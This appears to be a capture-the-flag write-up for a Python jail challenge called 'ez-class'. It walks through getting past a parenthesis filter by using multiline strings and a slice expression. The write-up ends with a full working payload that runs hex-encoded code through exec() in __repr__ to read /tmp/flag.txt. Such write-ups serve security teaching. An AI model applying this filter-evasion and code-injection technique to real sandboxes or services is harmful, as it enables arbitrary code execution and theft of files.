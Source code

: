 ```yaml
---
title: ez-class
author: Max
date: 2023-03-20
tags: [python, jail]
---
```


### Source code

[ez-class.py](./ez-class.py)

### First analysis

It seems we can write a class to a file, and open that class.
But we also have restrictions on what we can write that are applied when input gets validated by `get_legal_code`.
When running and selecting `1. Write new class` we are prompted with

- `{class name}`
- `{parent}`
- `{number of methods}`
- for each method:
  - `{name{i}}`
  - `{params{i}}`
  - `{body{i}}`

and out class will look like:

```
class {class name}({parent}):
  def {name{1}}({params{1}}):
    {body{1}}

  def {name{2}}({params{2}}):
    {body{2}}
  ...
```

In `exec_class()` our class gets printed, so `my_class.__repr__()` gets run to get it's string representation.

### Resolution

Since we can not write parentheses we want to highjack some.
If we can remove `def` in `def {name{2}}({params{2}}):` we would get closer to calling any funciton with any parameter.
Fortunatley there are multiline strings, so now our payload looks like:

```
class MyClass():
  def __repr__(self): # gets called when `exec_class` is called
    a="""

  def """;exec({params{2}}):
    {body{2}}
```

We still have a problem:
the colon at the end of `def {name{2}}({params{2}}):` gives us a syntax error since it is not valid python code.
This can be fixed by making it look like we are using that result to index an array, since `[][f(x):2]` is valid python code

```
class MyClass():
  def __repr__(self): # gets called when `exec_class` is called
    a="""

  def """;[][exec({params{2}}):
    2]
```

great, we can call any function!
now we just put `"print(open('/tmp/flag.txt').readlines())"` as a hexstring into `{params{2}}` to avoid parentheses invalidating our payload and we have our evil class

```python
class MyClass():
  def __repr__(self): # gets called when `exec_class` is called
    a="""

  def """;[][exec("\x70\x72\x69\x6e\x74\x28\x6f\x70\x65\x6e\x28\x27\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29\x2e\x72\x65\x61\x64\x6c\x69\x6e\x65\x73\x28\x29\x29"):
    2]
```

By writing such class, then selecting `2. Run class` and providing the class name we get the `__repr__` method to be run that in turn runs the `exec` which prints the file and we get the flag!

